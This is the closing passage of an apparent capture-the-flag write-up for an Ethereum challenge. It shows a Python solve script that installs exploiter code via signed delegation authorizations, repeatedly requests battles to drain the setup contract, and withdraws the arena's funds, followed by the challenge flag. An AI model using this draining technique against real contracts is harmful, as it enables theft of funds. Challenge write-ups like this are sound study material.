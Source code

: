     exploiter = conn.contract(player, abi=exploiter_abi, bytecode=exploiter_bin)
    exploiter.deploy(arena_addr)

    arena.functions.deposit().send_transaction(value=7 * 10**18)
    signed_auth = agent.sign_authorization(f"0x{0x1337:040x}", is_sender=False)
    arena.functions.register(agent.address).send_transaction(authorization_list=[signed_auth])

    for i in range(3):
        arena.functions.claimPig().send_transaction()

    # Update the agent's code
    signed_auth = agent.sign_authorization(exploiter.address, is_sender=False)
    arena.functions.requestBattle(setup, arena.caller.balanceOf(player.address)).send_transaction(authorization_list=[signed_auth])

    while True:
        try:
            if arena.caller.getBattleCount() == 1:
                sleep(5)
                continue
        except Exception as e:
            sleep(2)
            continue
        setup_balance = arena.caller.balanceOf(setup)
        if setup_balance < 10**18:
            break
        arena.functions.requestBattle(setup, setup_balance).send_transaction()

    withdrawer_addr = calc_create_address(player.address, conn.w3.eth.get_transaction_count(player.address))
    withdrawer = conn.contract(player, abi=withdrawer_abi, bytecode=withdrawer_bin)
    withdrawer.deploy()

    signed_auth = player.sign_authorization(withdrawer_addr)
    player.send_transaction(player.address, data=encode_with_signature("exploit(address,uint256)", arena_addr, arena.caller.balanceOf(player.address) - 1), authorization_list=[signed_auth])
    arena.functions.withdraw(arena.get_balance()).send_transaction()
    print("Final player balance:", player.get_balance())
    ```

### Flag

> R3CTF{gHoS7-in_TH3_m@cH1Ne_@93NT_77O2-wII1_6ZIN9-DOwn_7h3-Bo5s-6y_dra1nIn9_@ll_423na_2eS3Rv350}

## References

- [EIP-2200: Structured Definitions for Net Gas Metering](https://eips.ethereum.org/EIPS/eip-2200)
- [EIP-2929: Gas cost increases for state access opcodes](https://eips.ethereum.org/EIPS/eip-2929)
